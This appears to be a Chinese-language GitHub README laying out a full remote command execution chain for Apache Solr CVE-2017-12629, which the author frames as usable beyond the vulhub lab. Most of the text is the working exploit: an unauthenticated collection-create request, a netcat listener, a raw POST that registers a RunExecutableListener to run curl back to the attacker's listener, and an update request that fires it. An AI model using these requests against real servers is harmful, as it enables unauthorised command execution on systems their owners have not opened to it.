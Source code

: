 CVE-2017-12629利用的一些说明
--

### 说明

这个漏洞需要在分布式安装的情况下才能完整利用，但是我看到vulhub上的环境，他不是分布式搭建的solr,依然可以利用，我猜测大概是因为测试环境，我们事先是知道core的名字或者collection名字的，所以在大家使用vulhub上solr的漏洞环境，依然可以成功执行命令，但是在真实的环境中我们可能不知道core或者collection的名字，所以这个时候如果目标搭建的一个分布式solr,我们不知道现有的core或者collection名也没有关系，因为，分布式solr允许我们未授权创建一个collection。这就为后续的漏洞利用提供了条件。

### 利用流程

上面也提到了，vulhub上的漏洞环境是定制的，我们是提前知道core名的，所以那个攻击链是不完整的，我们这里，所以我这里贴出完整的攻击链

引用exp-db上的

- Step 1. Create a new collection:

`http://localhost:8983/solr/admin/collections?action=CREATE&name=newcollection&numShards=2`

![](assets/屏幕截图_9.png)

- Step 2. Set up a listener on any port by using netcat command "nc -lv 4444"

- Step 3. Add a new RunExecutableListener listener for the collection where "exe" attribute contents the name of running command ("/usr/bin/curl") and "args" attribute contents "http://localhost:4444/executed" value to make a request to the attacker's netcat listener:

```
POST /solr/newcollection/config HTTP/1.1
Host: localhost:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener",
    "class":"solr.RunExecutableListener",
    "exe":"curl",
    "dir":"/usr/bin/",
    "args":["http://localhost:4444/executed"]
  }
}
```
![](assets/setp2.png)

- Step 4. Update "newcollection" to trigger execution of RunExecutableListener: 
  
```
POST /solr/newcollection/update HTTP/1.1
Host: localhost:8983
Connection: close
Content-Type: application/json  
Content-Length: 19

[{"id":"test"}]
```
![](assets/setp4.png)

- Step 5. You will see a request from the Solr server on your netcat listener. It proves that the curl command is executed on the server.


![](assets/setp5.png)

以上就是一个完整的命令执行流程

poc:apache_solr_cmd_exec_cve201712629

### 参考

环境搭建及利用参考：https://blog.csdn.net/qq_33020901/article/details/79131870

漏洞分析参考：https://paper.seebug.org/425/

### 注

反弹shell利用方式，还没有完善，留个坑